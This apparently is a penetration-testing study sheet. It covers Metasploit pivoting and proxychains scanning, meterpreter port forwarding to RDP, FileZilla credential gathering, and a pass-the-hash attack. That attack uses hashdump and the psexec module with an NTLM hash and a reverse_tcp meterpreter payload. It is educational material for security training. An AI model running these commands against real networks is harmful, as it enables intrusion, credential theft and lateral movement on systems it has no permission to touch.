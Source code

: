 
---

### Pivoting and Internal Network Scan

Pivoting allows us to move through the internal network easily and quickly, exploiting new hosts.  

####  **IP Forwarding (Pivoting)**: Routes all traffic to internal network machines (like a VPN).

 ** IP forwarding  **
```bash

* **Pivoting:**
    - Route traffic through compromised machines:
      - Add route in Metasploit: `route add 10.10.10.0 255.255.255.0 <session number>`
      - Use autoroute (on meterpreter) `run autoroute -s 10.10.10.0/24`
      - Check routes: `autoroute -p`
    
* **Port Scanning via Pivot:**
    - Use `auxiliary/scanner/portscan/tcp` for TCP port scanning.
    - Example: `use auxiliary/scanner/portscan/tcp`

* **Proxy Setup (Metasploit + Proxychains):**
    - Set up Metasploit SOCKS4 proxy:
      - Module: `auxiliary/server/socks4a`
      - Set SRVHOST & SRVPORT (default is port 1080).
    - Configure Proxychains:
      - Update `/etc/proxychains.conf`: `socks4 127.0.0.1 1080`
      - check the proxy is running  ->` /meterpreter> jobs`  
    - Example command:
      - `proxychains nmap -sT -Pn -n <target IP> --top-ports 50` 
* **Access Services via Proxychains:**
    - SSH: `proxychains ssh <target IP>`
    - Telnet: `proxychains telnet <target IP>`
```

####  **local Port Forwarding**: Routes traffic for a specific port/service only.
```bash
* **local Port Forwarding (Meterpreter):**
    - Forward local ports to internal network services:
      - `portfwd add -l <local port> -p <target port> -r <target IP>`
    - Example:
      - `portfwd add -l 3333 -p 3389 -r 10.10.10.5`
    - check teh port forwarding 
      - `portfwd list `
    - Use RDP (on our local mchine):
      - `rdesktop 127.0.0.1:3333`
```

***The difference between local port forwarding and remote port forwarding lies in the direction of traffic flow and the type of service being exposed:***

|               | **Local Port Forwarding**                          | **Remote Port Forwarding**                            |
| ------------- | -------------------------------------------------- | ----------------------------------------------------- |
| **Direction** | Local port to remote service                       | Remote port to local service                          |
| **Purpose**   | Access remote service from local machine           | Expose local service to remote machine/network        |
| **Example**   | Forward RDP from an internal network to local port | Make local web server accessible to external machines |

Both techniques are used to bypass firewall restrictions and control access to services behind NAT or restrictive network policies.

***


### Exploitation  
#### extract credentials
```bash
# extract cred of clint service/ softwares
meterpreter > run post/multi/gather/filezilla_client_cred

```

#### Pass-the-Hash Attack
- **Weakness**: Windows authentication protocols allow users to log in using hashed versions of passwords (NT or LM hashes) instead of cleartext passwords.  
- **Attack Vector**: If the same password is used across multiple machines, obtaining the hash from one host grants access to others, even without knowing the actual password.

* **Tools for Pass-the-Hash**  
- Metasploit and other tools are available to exploit this Windows weakness.  
- You only need the hashes, not the cracked passwords.

* **Dumping Hashes**  
- **Command**:  
  ```bash
  meterpreter > hashdump
  ```

* **Pass-the-Hash with Metasploit (psexec Module)**  
To run a pass-the-hash attack using the `psexec` module:

- **Configure the Module**:
  - **RHOST**: Target host (e.g., 10.10.10.5)
  - **SMBUser**: User account (e.g., els)
  - **SMBPass**: Password hash
  - **Payload**: Meterpreter or custom payload

- **Commands**:
  ```bash
  use exploit/windows/smb/psexec
  set RHOST 10.10.10.5
  set SMBUser els
  set SMBPass <NTLM hash>
  set PAYLOAD windows/meterpreter/reverse_tcp
  run
  ```

* **Post-Exploitation After Successful Exploit**  
Once you have a meterpreter session on a new machine, repeat the post-exploitation process to gather more information (e.g., services, hosts, networks).  

* **Notes**  
- Use proxychains with socks4a to pivot exploits if Metasploit doesn't have a module for the specific vulnerability.
- 
